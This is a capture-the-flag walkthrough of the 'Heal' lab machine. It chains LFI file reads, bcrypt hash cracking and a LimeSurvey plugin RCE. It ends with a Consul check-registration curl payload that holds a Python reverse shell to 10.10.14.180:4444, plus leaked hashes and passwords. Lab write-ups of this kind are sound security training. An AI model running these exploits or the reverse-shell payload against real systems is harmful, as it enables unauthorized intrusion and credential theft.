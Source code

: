 Let's scan the IP address `10.10.11.46`
```bash
sudo nmap -v -sC -sV 10.10.11.46
```
![image](images/20250404175741.png)

Let's go to the website

![image](images/20250322182212.png)

Let's try to register and intercept the request in `Burp Suite`

![image](images/20250322184322.png)

We see that there is a reference to `http://api.heal.htb`. Let's add it to `/etc/hosts` and go to it

![image](images/20250322184438.png)

Now we can register

![image](images/20250322184706.png)

![image](images/20250322184715.png)

If you click `Survey`, a website with a new submenu `http://take-survey.heal.htb` will open. Add it to `/etc/hosts` as well
If you simply go to this address, you will get the following output:

![image](images/20250404183920.png)

Now the administrator `ralph@heal.htb` is known.
The admin authorization page was found (`/admin --> http://take-survey.heal.htb/index.php/admin/authentication/sa/login`)

![image](images/20250404183945.png)

Let's try to export a PDF file and intercept the request in `Burp Suite`.
Sending data to `/expected`.

![image](images/20250404193605.png)

Next, it checks whether access to the `/download` resource is allowed with the `GET` method and the `Authorization` header.

![image](images/20250404193626.png)

Request to download the file

![image](images/20250404193643.png)

And then the PDF file is downloaded. 
Since all actions take place on the server, you can try to exploit LFI

![image](images/20250404194531.png)

![image](images/20250404194554.png)

![image](images/20250404194649.png)

LFI works. Now we know that there are users `ralph` and `ron`. Let's try to find the database for `Rails`. The [documentation](https://guides.rubyonrails.org/command_line.html) mentions the existence of the `/config/database.yml` file.

![image](images/20250404195431.png)

Let's try to download it.

![image](images/20250404195514.png)

![image](images/20250404195532.png)

![image](images/20250404195607.png)

Let's download the file `/storage/development.sqlite3`

![image](images/20250404195833.png)

![image](images/20250404195851.png)

![image](images/20250404195909.png)

Let's open it with `sqlite3`

![image](images/20250404200447.png)

```hashes
ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|ralph|1
test@test.com|$2a$12$ixJT6jUCT8kBXBcHsKw94.pYzoJL4wOuzTs8noUwDVaAS.E50Zmue|test|0
andres@htb.com|$2a$12$iliM9hW1LzsuwabZz4GXFurTfRAtt6txQQJVS10EmTjwWAmAc0oH6|andres|0
0xbandit@gmail.com|$2a$12$7h5X5h8D1k/ilFpMZasrH.RdOI5BpuXMs7pwKu0DSew786hf0qOgG|0xbandit|0
0xbandit2@gmail.com|$2a$12$x6AcggrhJ/7oo7Dvhj/oMeXkACScu6UJFlnbcm3f5ZogbpbVIQAF6|0xbandit2|0
dex1d@gmail.com|$2a$12$xXJDD6NeUZuLhW9Ig5ytD.lgBsjd1ziBiGoU5GUo2mr8G4Vtf81BK|dex1d|0
```
We are interested in `ralph`, as he is the only admin. This is a password hash in `bcryp` format. Let's crack it:
```bash
hashcat -m 3200 ralph /usr/share/wordlists/rockyou.txt
```

![image](images/20250404201551.png)

```Password
147258369
```

Log in to the admin panel

![image](images/20250404201637.png)

In this panel, you can upload your plugins. Let's upload our plugin with `reverse shell`. To do this, find a ready-made exploit on GitHub (https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE).
There are two files: `config.xml` and `revshell.php`. They need to be packed into a ZIP archive to be uploaded to the site as a plugin.
```bash
zip -r ReverseShellPlugin.zip config.xml revshell.php
```

![image](images/20250404203227.png)

Run the script to enter the `reverse shell`
```bash
python exploit.py http://take-survey.heal.htb ralph 147258369 80
```

```bash
python3 -c 'import pty; pty.spawn(“/bin/bash”)'
```
Go to the site directory (it is located at `/var/www/limesurvey` instead of the usual `/var/www/html`) and look for configuration files. We see a line with data for logging into the database

![image](images/20250404210840.png)

```Password
pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;
```
Log in to it
```bash
PGPASSWORD=‘AdmiDi0_pA$$w0rd’ psql -U db_user -h localhost -d survey
```
Display the list of tables
```psgl
\dt
```

![image](images/20250404212130.png)

There is a table called `lime_users`. Let's view its contents
```psgl
select * from lime_users;
```

![image](images/20250404212226.png)

```hash
$2y$10$qMS2Rbu5NXKCPI5i6rjQPexhhJk33kv3KNt4uNjJ5XEvV9hv.om/C
```
Unfortunately, this is the same password that was used to log in to the panel on the website

![image](images/20250404213858.png)

Let's see if there are any locally running services.
```bash
netstat -lntp
```
![image](images/20250404214100.png)

<div style="page-break-after: always;"></div>

- **5432** — PostgreSQL.
- **3000, 3001** — Possibly Node.js, Rails, or other web applications.
- **8500, 8503, 8600, 8300-8302** — Consul ports (service and configuration management system)
Let's examine port `8500`:
```bash
curl http://localhost:8500
```
We see the output
```HTML
<a href="/ui/">Moved Permanently</a>
```
This means that the `Consul` server (running on port 8500) redirects requests from the root path `/` to the web interface `/ui/`.
Let's try to exploit RCE on `Consul` via `curl`. Let's send a `reverse shell`
```bash
curl -X PUT -d '{
    “ID”: “rc”,
    “Name”: “Remote code execution”,
    “Shell”: “/bin/bash”,
    “Interval”: “5s”,
    “Args”: [
        “python3”,
        “-c”,
        “import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\”10.10.14.180\", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p=subprocess.Popen([\“/bin/sh\”, \“-i\”])"
    ]
}' http://localhost:8500/v1/agent/check/register
```

![image](images/20250404220114.png)
## What is happening?
1. **Check registration:**
- **ID:** `rc` — check identifier.
- **Name:** `Remote code execution` — check name.
    - **Shell:** `/bin/bash` — shell for executing the command.
- **Interval:** `5s` — the check will run every 5 seconds.
- **Args:** Command to execute.
2. **Reverse Shell command:**
    - Uses `Python3` to create a reverse connection to IP `10.10.14.180` on port `4444`.
- The code opens a socket, redirects standard streams (`stdin`, `stdout`, `stderr`) and launches an interactive shell (`/bin/sh -i`) .

**Consul** is a tool for managing and discovering services that can execute scripts to check the health of services. In our case, the `HTTP API Consul` was available on port 8500, and it appears that the `-enable-script-checks` setting was enabled, allowing arbitrary commands to be executed. This is a known vulnerability that allows attackers to register a check with a malicious script if the API is accessible over the network and there is no proper protection, such as `ACL` (access control lists).
The `curl` command sent a `PUT` request to the endpoint `/v1/agent/check/register` (used to register a new check in `Consul`) with a `JSON` payload that included a `Python` script in the `Args` field. (According to the Consul API documentation (https://developer.hashicorp.com/consul/api-docs/agent/check), the Args field allows you to specify a command to execute if scripted checks are enabled.) This script created a reverse shell by connecting to our listener at `10.10.14.180:4444`. Since `Consul` was configured to execute scripts for checks and was likely running with `root` privileges, executing the script gave access to `root`.
